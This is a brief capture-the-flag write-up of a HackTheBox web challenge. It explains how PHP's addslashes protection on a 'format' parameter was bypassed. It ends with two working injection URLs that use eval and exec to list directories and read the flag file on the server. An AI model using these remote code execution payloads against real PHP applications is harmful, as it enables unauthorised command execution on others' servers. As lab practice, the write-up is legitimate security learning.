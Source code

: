 HackTheBox web challenge. I'm not good at web but took a shot at this one. It was quite interesting.

There was a vulnerable parameter `format` in the code but it was protected by `addslashes` php function. After some googling I found this article that helped me to bypass addslashes:

https://www.programmersought.com/article/30723400042/

I still spent some time trying to find correct way to display the flag. In the end query that worked was:

`?format=${eval($_GET[1])}&1=echo%20exec(%27ls%20-l%20..%20|grep%20flag%27);` - to find the flag file name

`?format=${eval($_GET[1])}&1=echo%20exec(%27cat%20../flagmR6OV%27);` - to display the flag
